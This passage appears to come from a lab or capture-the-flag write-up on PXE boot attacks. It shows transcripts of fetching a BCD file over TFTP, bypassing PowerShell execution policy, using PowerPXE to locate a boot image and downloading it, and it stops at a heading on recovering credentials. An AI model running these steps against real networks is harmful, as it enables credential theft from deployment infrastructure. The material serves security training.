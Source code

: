 ![](https://miro.medium.com/v2/resize:fit:700/0*Q8qghilLq3zbByh4.jpeg)

## PXE Boot Image Retrieval

![](https://miro.medium.com/v2/resize:fit:638/0*r1D3wTH9njT41GZ1.jpeg)

![](https://miro.medium.com/v2/resize:fit:383/0*x6R9u2wlBRSEnfJL.jpeg)

![](https://miro.medium.com/v2/resize:fit:393/0*NfImSR1PVz0GqxY5.jpeg)

```shell
Microsoft Windows [Version 10.0.17763.1098]  
(c) 2018 Microsoft Corporation. All rights reserved.  
  
thm@THMJMP1 C:\Users\thm>cd Documents  
  
thm@THMJMP1 C:\Users\thm\Documents>mkdir 0XFK  
  
thm@THMJMP1 C:\Users\thm\Documents>copy c:\powerpxe 0XFK\  
c:\powerpxe\LICENSE  
c:\powerpxe\PowerPXE.ps1  
c:\powerpxe\README.md  
        3 file(s) copied.
```

```powershell
thm@THMJMP1 C:\Users\thm\Documents\0XFK> tftp -i 10.200.32.202 GET "\Tmp\x64{F95E60C5-C07C-469C-9C22-7980623C8896}.bcd"   
conf.bcd  
Transfer successful: 12288 bytes in 1 second(s), 12288 bytes/s  
  
thm@THMJMP1 C:\Users\thm\Documents\0XFK> Powershell -executionpolicy bypass  
Windows PowerShell  
Copyright (C) Microsoft Corporation. All rights reserved.  
  
PS C:\Users\thm\Documents\0XFK> Import-Module .\PowerPXE.ps1  
PS C:\Users\thm\Documents\0XFK> $BCDFile = "conf.bcd"  
PS C:\Users\thm\Documents\0XFK> Get-WimFile -bcdFile $BCDFile  
>> Parse the BCD file: conf.bcd  
>>>> Identify wim file : \Boot\x64\Images\LiteTouchPE_x64.wim    
\Boot\x64\Images\LiteTouchPE_x64.wim  #<----- location to be used in download  
PS C:\Users\thm\Documents\0XFK> tftp -i 10.200.32.202 GET "\Boot\x64\Images\LiteTouchPE_x64.wim"  
PS C:\Users\thm\Documents\0XFK> tftp -i 10.200.32.202 GET "\Boot\x64\Images\LiteTouchPE_x64.wim"  pxeboot.wim  
Transfer successful: 341899611 bytes in 141 second(s), 2424819 bytes/s  
```

```powershell
PS C:\Users> tftp -i 10.200.32.202 GET "\Boot\x64\Images\LiteTouchPE_x64.wim"  pxeboot.wim
```

#### Recovering Credentials from a PXE Boot Image
